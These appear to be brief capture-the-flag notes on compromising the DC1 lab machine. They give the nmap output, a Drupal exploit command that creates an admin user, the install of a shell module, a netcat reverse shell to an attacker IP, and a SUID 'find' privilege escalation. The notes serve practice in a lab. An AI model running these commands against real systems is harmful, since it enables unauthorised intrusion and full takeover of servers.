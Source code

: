 ----------------------------------------------------
# Author -> Shubham Rannpise
----------------------------------------------------
# DC1
# 25/1/2023

----------------------------------------------------
# nmap result
----------------------------------------------------
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
111/tcp open  rpcbind

drupal is vulnerable
python2 /usr/share/exploitdb/exploits/php/webapps/34992.py -u shub -p shub -t http://192.168.143.193/


then add module for shell
https://www.drupal.org/project/shell/releases/7.x-1.0-beta5


nc -lvnp 6969  
nc -nv 192.168.49.143 6969 -e /bin/bash


find / -perm -u=s -type f 2>/dev/null
find . -exec '/bin/sh' \;
